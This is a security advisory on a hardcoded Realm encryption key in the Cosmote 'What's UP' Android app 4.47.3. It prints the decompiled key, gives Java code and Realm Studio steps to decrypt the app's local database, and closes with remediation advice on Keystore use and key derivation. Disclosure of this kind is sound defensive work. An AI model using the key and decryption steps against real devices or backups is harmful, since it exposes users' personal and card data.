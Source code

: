 # [Hardcoded Realm Database Encryption Key] found in What's UP Android App 4.47.3 - (RealmDB.java)

Affected Project: **WHAT'S UP 4.47.3**

Platform: Android

Vendor: Cosmote Greece

Official Application Link: (https://play.google.com/store/apps/details?id=gr.cosmote.whatsup)

Version: 4.47.3

Updated: Oct 10, 2024

<br />

> Installs: 5,000,000+

> Category: Tools

> Android Version Code: 2410115

> File Name: gr.cosmote.whatsup.apk

> Size: 20.06MB

> SHA256: 56fcd6278c70af76b342bd3374b5322d0531a5fe6db8a4dffdcd8002ade59d51

<br /> 


## Description:
The application embeds a hardcoded encryption key `(defaultRealmKey)` within the source code file `gr/desquared/kmmsharedmodule/db/RealmDB.java`. This key is used to encrypt the Realm database file named `defaultKMMV4.realm.enc`. Because the encryption key is hardcoded and packaged inside the APK, an attacker can extract it from the APK file. This exposure enables the attacker to decrypt the database file, leading to unauthorized access to confidential user information, including sensitive personal data and credit card details.


<br /> 

## Root cause:

Vulnerability found at: **RealmDB.java**

Path: gr/desquared/kmmsharedmodule/db/RealmDB.java

<br />  

## Vulnerability Analysis:

Tool for decompiling the simple architect .apk or bundle file: [Jadx](https://github.com/skylot/jadx)

The RealmDB class in RealmDB.java is responsible for managing the encrypted Realm database within the mobile application: 

```
public final class RealmDB {
    public static final String ENCRYPTED_REALM = "ENCRYPTED_REALM";
    public static final RealmDB INSTANCE = new RealmDB();
    private static final String databaseName = "defaultKMMV4";
    private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
    private static final String encryptedRealmFileName = "defaultKMMV4.realm.enc";
    private static final long encryptedRealmVersion = 80;
```

Within this class there is a hardcoded encryption key used for securing the database:

```
private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
```

The encryption key can be used to decrypt the application Realm database !

<br />

## Impact

1. Predictable Key: A hardcoded encryption key, especially one that is the same across all installations of the application, is inherently insecure. Attackers who decompile the application can easily extract this key.

2. Ease of Decryption: With access to the encryption key, an attacker can decrypt the database contents if they gain access to the device or a backup of the application's data, compromising sensitive user information.

3. Regulatory Non-Compliance: As the application stores personal data and credit cards info, the use of weak encryption practices may violate data protection regulations like GDPR, HIPAA, etc.


<br />

## Decryption sample code

The defaultRealmKey string is converted into a byte array before being used.

Convert the Encryption Key:

```
// Java example
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);
```


Configure Realm with the Encryption Key:

```
// Java example
RealmConfiguration config = new RealmConfiguration.Builder()
    .name("defaultKMMV4.realm.enc")
    .encryptionKey(keyBytes)
    .schemaVersion(80)
    .build();
```


Open the Encrypted Realm:

```
// Java example
Realm realm = Realm.getInstance(config);
```


Access and Export Data:

```
// Java example
RealmResults<YourRealmObject> results = realm.where(YourRealmObject.class).findAll();
```


<br />

## Alternative decryption method: Using Realm Studio

Convert the Key to Hexadecimal Format as Realm Studio requires the encryption key in hexadecimal format:

```
// Java code
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);

// Convert byte array to hex string
StringBuilder hexString = new StringBuilder();
for (byte b : keyBytes) {
    String hex = String.format("%02x", b);
    hexString.append(hex);
}

String encryptionKeyHex = hexString.toString();
```


Now launch Realm Studio.
Open the encrypted Realm file (defaultKMMV4.realm.enc).

When prompted, enter the hexadecimal encryption key (encryptionKeyHex).

<br />


## Recommendations for Secure Encryption Key Management


1. **Use the Android Keystore System for Secure Key Storage**

**Benefits:**

**Hardware-backed Security:** Keys can be stored in hardware-backed keystores on devices that support it.

**Isolation:** Keys are stored outside the app's process space, making them more resistant to extraction.

<br />

2. **Generate Unique Encryption Keys per Device or User**

**Benefits:**

Using unique keys minimizes the impact if a key is compromised. It ensures that only data on a particular device or user account is at risk, not all users.


**Methods:**
**Per-Device Keys:** Generate a key during the first launch of the app and store it securely.

**Per-User Keys:** If your app has user authentication, derive the key from user-specific credentials.

<br />


3. **Use a Key Derivation Function (KDF)**

**Benefits:**

Even if the KDF parameters are known, without the original input (password/PIN), the key cannot be derived.

**Choose a Strong KDF:** For example PBKDF2.

<br />

## CWE & CVE score

CWE-312: Cleartext Storage of Sensitive Information

CVSS v3.1 Base Score: 7.8 (High)

<br />

> One Click Can Change Everything: Be Secure.
